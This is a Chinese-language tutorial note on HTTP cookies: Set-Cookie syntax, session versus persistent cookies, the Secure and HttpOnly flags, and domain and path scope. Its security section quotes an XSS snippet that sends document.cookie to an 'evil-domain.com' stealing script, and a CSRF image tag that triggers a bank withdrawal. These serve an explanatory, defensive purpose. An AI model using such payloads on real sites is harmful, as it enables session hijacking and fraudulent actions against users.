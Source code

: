 ## cookie 和 session知识图谱

## 生成cookie

服务端header头格式

```bash
	Set-Cookie: <cookie-name>=<cookie-value>
```

## cookie分类

1. Session cookies【会话层cookie】

```bash
	Set-Cookie: <cookie-name>=<cookie-value>;directive
```

如果不添加任何的指令(directive)的话，cookie的有效期仅仅在浏览器(或者页面)未关闭生效。

2. 持久cookie

采用`Expires`或者`Max-Age`来控制cookie有效时间。

`Expires`使用`HTTP-date timestamp`来标示，一般是UTC或者GMT时间格式。

```bash
	Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

3. Secure and HttpOnly cookies

一个secure的cookie只有当网站采用SSL和https协议的时候，客户端才会发送。
在chrome和火狐52版本后，如果网站不设置为https，`set-cookie`将不能使用`secure`指令.

为了避免XSS攻击，可以设置`HttpOnly`以避免js对cookie的操作。

```bash

	Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly

```

## cookie作用域

采用`domain`和`path`来定义cookie的作用域。

`domain`指令的作用域对子域名同样生效

`path`指令是指针对客户端url做cookie的过滤限制。


```bash
	# 设置path='/',如下url也会match 
	/docs
```


## cookie安全性问题

**列举如下两种情况**

1. XSS

```js
      (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

```

2. CSRF

```html
     <img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">

```

**解决方案**

1. input输入过滤 escape

2. 敏感动作设置较短cookie过期时间(仅针对cookie)，当然这块有很多种其他做法

### 延伸阅读
[cookie指令简化版](./cookie_headers.md)

[set-cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie)

[w3.org的http协议参数规范](https://www.w3.org/Protocols/rfc2616/rfc2616-sec3.html)






















